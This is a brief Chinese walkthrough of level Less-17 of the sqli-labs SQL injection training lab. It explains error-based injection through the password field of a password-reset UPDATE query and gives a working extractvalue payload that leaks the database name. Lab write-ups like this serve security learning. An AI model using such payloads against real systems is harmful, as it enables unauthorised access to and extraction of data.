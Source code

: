 
![](file/image_qfH_bMFQHF.png)

### Less-17：POST - Update Query- Error Based - string

**注入类型**

报错注入

**闭合方式**

id='\$id'

> 💡这一题对表`users`  和`uname`传参进行过滤，因此一定要知道账户名

-   这题的场景是重设密码界面，重设密码时用到了Update语句，因此通过密码输入处注入

```sql
admin'
and extractvalue(1,concat(0x7e,database())) #
```
